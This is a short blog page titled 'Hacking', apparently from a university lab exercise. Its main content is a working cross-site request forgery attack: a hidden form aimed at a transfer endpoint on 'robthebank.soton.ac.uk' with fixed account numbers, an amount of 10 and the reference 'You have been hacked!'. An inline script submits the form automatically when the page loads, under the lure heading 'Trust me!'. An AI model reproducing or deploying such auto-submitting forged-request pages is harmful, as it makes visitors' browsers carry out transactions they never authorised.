 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


#### Trust me!

<form action="https://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="275">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="186">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<script>document.getElementById("TransactionTransferForm").submit()</script>
</div>
<input class="btn btn-primary" type="submit" value="Continue">
</form>


	

****
